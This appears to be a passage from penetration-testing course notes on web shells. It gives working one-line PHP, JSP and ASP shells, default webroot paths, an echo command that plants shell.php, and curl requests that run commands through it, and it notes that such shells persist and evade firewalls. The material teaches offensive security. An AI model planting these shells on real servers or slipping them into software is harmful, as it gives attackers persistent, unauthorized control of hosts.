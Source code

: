 	<?php system($_REQUEST["cmd"]); ?>

	<% Runtime.getRuntime().exec(request.getParameter("cmd")); %>

	<% eval request("cmd") %>

* * * * *

#### Uploading a Web Shell

Once we have our web shell, we need to place our web shell script into the remote host's web directory (webroot) to execute the script through the web browser. This can be through a vulnerability in an upload feature, which would allow us to write one of our shells to a file, i.e. `shell.php` and upload it, and then access our uploaded file to execute commands.

However, if we only have remote command execution through an exploit, we can write our shell directly to the webroot to access it over the web. So, the first step is to identify where the webroot is. The following are the default webroots for common web servers:

| Web Server | Default Webroot |
| --- | --- |
| `Apache` | /var/www/html/ |
| `Nginx` | /usr/local/nginx/html/ |
| `IIS` | c:\inetpub\wwwroot\ |
| `XAMPP` | C:\xampp\htdocs\ |

We can check these directories to see which webroot is in use and then use `echo` to write out our web shell. For example, if we are attacking a Linux host running Apache, we can write a `PHP` shell with the following command:

	echo '<?php system($_REQUEST["cmd"]); ?>' > /var/www/html/shell.php

* * * * *

#### Accessing Web Shell

Once we write our web shell, we can either access it through a browser or by using `cURL`. We can visit the `shell.php` page on the compromised website, and use `?cmd=id` to execute the `id` command:

	http://SERVER_IP:PORT/shell.php?cmd=id

![[write_shell_exec_1.png]]

Another option is to use `cURL`:

	curl http://SERVER_IP:PORT/shell.php?cmd=id

```text
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

As we can see, we can keep changing the command to get its output. A great benefit of a web shell is that it would bypass any firewall restriction in place, as it will not open a new connection on a port but run on the web port on `80` or `443`, or whatever port the web application is using. Another great benefit is that if the compromised host is rebooted, the web shell would still be in place, and we can access it and get command execution without exploiting the remote host again.
